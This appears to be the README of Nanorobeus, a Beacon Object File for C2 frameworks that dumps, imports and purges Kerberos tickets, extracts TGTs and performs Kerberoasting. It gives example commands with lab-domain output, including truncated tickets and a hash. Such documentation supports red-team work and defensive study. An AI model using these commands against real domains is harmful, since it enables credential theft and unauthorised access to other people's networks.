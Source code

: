 # Nanorobeus
COFF file (BOF) for managing Kerberos tickets.

## Supported agents
* [Sliver](https://github.com/BishopFox/sliver)
* [Brute Ratel](https://bruteratel.com)
* [Cobalt Strike](https://www.cobaltstrike.com)
## Commands

**luid** - get current logon ID

**sessions** *[/luid:<0x0>| /all]* - get logon sessions

**klist** *[/luid:<0x0> | /all]* - list Kerberos tickets

**dump** *[/luid:<0x0> | /all]* - dump Kerberos tickets

**ptt** */ticket:\<base64\> [/luid:<0x0>]* - import Kerberos ticket into a logon session

**purge** *[/luid:<0x0>]* - purge Kerberos tickets

**tgtdeleg** *\/spn:<spn\>* - retrieve a usable TGT for the current user

**kerberoast** *\/spn:<spn\>* - perform Kerberoasting against specified SPN

## Examples
Get current logon ID.
```
=> nanorobeus64 luid

[+] Current LogonId: 0:0x19ea88e
```
Get detailed information about the current logon session.
```
=> nanorobeus64 sessions

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local
```
List Kerberos tickets for the current logon session. When elevated, use `/all` to list tickets from all of the sessions or `/luid:0x0` to list tickets in a specified logon session.
```
=> nanorobeus64 klist

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
    ...(snip)...
```
Dump tickets from the current logon session. When elevated, use `/all` to dump tickets from all of the sessions or `/luid:0x0` to dump tickets from a specified logon session.
```
=> nanorobeus64 dump

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
	Ticket          : doIFFjCCBRKgAwIBBaEDAgEWooIEGTCCBBVhggQRMIIEDaADAg...(snip)...
```
Import a ticket into the current logon session. When elevated, use `/luid:0x0` to import the ticket into a specified logon session.
```
=> make_token network fortress.local test pass
=> nanorobeus64 ptt /ticket:doIFqjCCBaagAwIB...snip...

[+] Ticket successfully imported.
```
Purge all Kerberos tickets from the current logon session. When elevated, use `/luid:0x0` to purge the tickets from a specified logon session.
```
=> nanorobeus64 purge

[+] Successfully purged tickets.
```
Retrieve a usable TGT for the current user.
```
=> nanorobeus64 tgtdeleg /spn:cifs/server.fortress.local

[*] Found the AP-REQ delegation ticket in the GSS-API output
[*] Authenticator etype: AES256_CTS_HMAC_SHA1
[*] Successfully extracted the service ticket session key
[*] Successfully decrypted authenticator
[+] Successfully extracted TGT: doIFeDCCBXSgAwIBBaEDAgEWooIEcjC...(snip)...
```
Perform Kerberoasting by specifying SPN:
```
=> nanorobeus64 kerberoast /spn:HTTP/server.fortress.local

[*] Target SPN: HTTP/server.fortress.local
[+] Hash: $krb5tgs$23$*$FORTRESS.LOCAL$HTTP/server.fortress.local*$ac5e2f4d28fd377...(snip)...
```

## Credits
* Rubeus - https://github.com/GhostPack/Rubeus
* mimikatz - https://github.com/gentilkiwi/mimikatz
* kekeo - https://github.com/gentilkiwi/kekeo 